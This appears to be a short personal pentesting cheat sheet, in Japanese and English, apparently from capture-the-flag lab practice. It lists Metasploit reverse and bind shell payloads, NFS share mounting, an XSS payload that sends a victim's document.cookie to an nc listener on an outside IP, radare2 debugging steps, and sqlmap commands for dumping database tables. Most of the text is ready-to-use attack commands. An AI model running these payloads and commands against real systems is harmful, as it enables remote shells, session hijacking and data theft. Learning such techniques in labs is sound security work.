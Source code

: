 ## metasploit
### payloads
    linux/x86/meterpreter/reverse_tcp
    windows/shell_reverse_tcp
    windows/shell_bind_tcp
    windows/exec
    windows/upexec/bind_tcp
    windows/vncinject/bind_tcp

    search linux/x86/meterpreter/reverse_tcp
    set PAYLOAD payload/linux/x86/meterpreter/reverse_tcp

## NFS
    showmount -e 10.10.125.220
    mkdir /mnt/nfs
    mount -t nfs 10.10.125.220:/opt/files /mnt/nfs/ #catはフルパスでファイルを指定

## XSS
### inputform に入力
    <script>alert(1);</script> #ポップアップが表示されれば脆弱性あり
    nc -lvnp 4444 #ローカルで実行
    <script>window.location = 'http://10.2.69.81:4444/page?param=' + document.cookie </script> #inputformに入力してsubmit

## radare2
    r2 -d if2
    aaa           #解析
    pdf @main     #main関数を表示
    db 0x00400b76 #set breakpoint
    dc            #continue
    px @ rbp-0x8  #var-8hの値を表示

## burpsuite sql-injection
    sqlmap -u http://10.10.182.6/register.php --forms #脆弱性チェック
    intercept onにしてログインフォームでユーザ登録
    登録ユーザでログイン、キャプチャされたログをAction → Save itemでファイル保存(req.txt)
    sqlmap -r req.txt --current-db #データベース名チェック
    sqlmap -r req.txt -D social --tables #socialデータベースのテーブルリストを出力

